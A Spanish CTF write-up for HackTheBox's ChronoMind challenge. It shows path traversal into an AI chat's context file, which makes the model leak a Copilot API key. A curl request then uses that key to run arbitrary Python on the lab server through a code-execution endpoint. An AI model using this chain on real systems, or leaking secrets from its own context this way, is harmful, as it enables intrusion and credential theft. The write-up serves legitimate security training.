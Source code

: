 ```yaml
---
title: Chrono Mind Misc CTF - HackTheBox
layout: page
permalink: /writeups/HTB/CTF/chronomind
date: 2025-02-16 11:00:00 +0000
categories: [HacktheBox, CTF, Misc]
tags: [HacktheBox, CTF, Misc]
image:
  path: /assets/img/cabeceras_genericas/htb.jpg
  alt: Chrono Mind Misc CTF - HackTheBox
description: >
  Guía de explotación de vulnerabilidades en el CTF HackTheBox ChronoMind Misc.
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


# Contexto

Se nos proporciona acceso a una web con tres opciones de contexto que se le van a proporcionar a la IA para poder hacerle preguntas.

En el código que nos podemos descargar tenemos las funciones principales que usa la API de la IA Chrono Mind.

# Modificando el contexto de la IA

En el fichero "utils.py" vamos a ver la función que se encarga de obtener el fichero de contexto.

```python
def getRepository(topic):
    for suffix in ['', '.md']:
        repoFile = f"{Config.knowledgePath}/{topic}{suffix}"
        print(repoFile)
        if os.path.exists(repoFile):
            return readFile(repoFile)
    return None
```

La variable viene desde el archivo config.py.

```python
import os

class Config():
    roomID = None
    createProgress = False
    chatProgress = False
    knowledgePath = f"{os.getcwd()}/repository"
    copilot_key = "REDACTED_SECRET"
```
Como vemos también se configura una clave API para algo llamado Copilot.

Ahora para poder modificar el contexto de un chat, vamos a interceptar la petición que se hace a la API de /create.

![alt text](/assets/img/writeups/hackthebox/chronomind_htb/image.png)

Al modificar el archivo de contexto haciendo un path traversal, le damos la clave de API que necesitamos para poder llamar a Copilot.

# Función para llamar a Copilot

En la ruta /route/api.py vamos a encontrar el codigo API que maneja la IA.

Una de las funciones que se puede llamar es la llamada a copilot/complete_adn_run

```python
@router.post("/copilot/complete_and_run")
def copilot_complete_and_run(response: Response, params: copilotParams):
    if Config.copilot_key != params.copilot_key:
        response.status_code = 403
        return {"message": "Invalid API key"}

    # get code completion
    completion = lm.code(params.code)

    if not completion.strip():
        return {"message": "Failed to get code completion"}

    full_code = params.code + completion.strip()

    # return the response
    return {"completion": full_code, "result": evalCode(full_code)}
```

Como vemos en la función copilot_complete_and_run, se llama a la función evalCode que se encarga de ejecutar el código completo, pero es necesaria la API_key para poder llamar a Copilot.

Si en utils.py comprobamos el código de la función evalCode

```python
def evalCode(code):
    output = ""
    random = uuid.uuid4().hex
    filename = os.path.join("uploads/") + random + ".py"
        # Guarda el código en un archivo y lo ejecuta
    try:
        with open(filename, "w") as f:
            f.write(code)

        output = subprocess.run(
            ["python3", filename],
            timeout=10,
            capture_output=True,
            text=True,
        ).stdout.strip("\n")

        cleanup(filename)

        return output

    except Exception as e: # handle any exception
        print(e, flush=True)
        cleanup(filename)
        return False
```

Por lo que si conseguimos inyectar codigo lo ejecutará.

# Obteniendo la API_key

Bien, ahora que tenemos el chat con el contexto modificado simplemente le preguntamos a la IA cual es la clave de API.

![alt text](/assets/img/writeups/hackthebox/chronomind_htb/image-1.png)

# Obteniendo la flag

Ahora con la clave de API podemos llamar a Copilot y obtener la flag.

Para saber los parámetros que usa simplemente en api.py podemos observar las variables que se pasan a copilot_complete_and_run.

```python
class copilotParams(BaseModel):
    code: str
    copilot_key: str
```
Ahora mediante curl podemos llamar a copilot/complete_and_run y obtener la flag, ya que sabemos que lo que hace es crear un archiv .py que se ejecuta con el contenido del parámetro code.

1. Listamos los directorios en la raíz del servidor.

```bash
❯ curl -X POST http://94.237.59.180:54043/api/copilot/complete_and_run \
-H "Content-Type: application/json" \
-d '{"code": "import os; print(os.listdir(\"/\"))", "copilot_key": "4928309140372768"}'
{"completion":"import os; print(os.listdir(\"/\"))# 列表\nprint(os.listdir(\"/home/\")) # 打印目录下面的文件","result":"['media', 'var', 'bin', 'srv', 'dev', 'opt', 'run', 'root', 'sys', 'usr', 'sbin', 'mnt', 'proc', 'lib64', 'tmp', 'boot', 'etc', 'lib', 'home', 'readflag']\n['chrono']"}%
```

Si observamos hay un directorio o fichero llamado "readflag". Si nos fijamos en el codigo que nos permiten descargar, encontramos un ficho llamado "readflag.c" que nos permite leer la flag.

Sabiendo esto podemos simplemente ejecutar el fichero y obtener la salida.

![alt text](/assets/img/writeups/hackthebox/chronomind_htb/image-2.png)

